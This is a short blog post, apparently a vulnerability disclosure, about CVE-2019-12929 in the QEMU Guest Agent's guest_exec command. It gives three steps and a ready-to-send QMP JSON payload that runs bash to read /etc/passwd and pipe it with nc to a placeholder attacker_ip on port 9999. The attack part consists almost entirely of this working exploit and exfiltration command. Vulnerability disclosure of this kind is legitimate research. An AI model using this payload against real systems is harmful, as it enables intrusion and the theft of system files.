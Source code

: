 ```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Remote Command Execution"
date: 2019-06-06
categories:
    - blog
keywords: "qemu, qemu-ga, guest_exec, command execution"
---
```


The QMP `guest_exec` command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:

```json
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
```

